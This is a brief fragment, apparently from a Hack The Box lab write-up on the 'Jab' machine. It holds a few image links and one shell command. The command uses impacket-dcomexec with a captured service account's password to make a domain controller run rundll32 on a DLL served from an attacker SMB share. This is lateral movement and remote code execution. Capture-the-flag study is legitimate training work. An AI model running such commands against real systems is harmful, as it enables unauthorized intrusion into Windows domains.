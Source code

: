 




![](https://i.imgur.com/JyuNhK8.png)

![](https://i.imgur.com/ZHdXpT9.png)
![](https://i.imgur.com/4awh9rs.png)
```shell
impacket-dcomexec 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw@dc01.jab.htb' "rundll32.exe \\10.10.14.92\PJBlET\test.dll,0" -nooutput -object MMC20 -dc-ip 10.10.11.4
```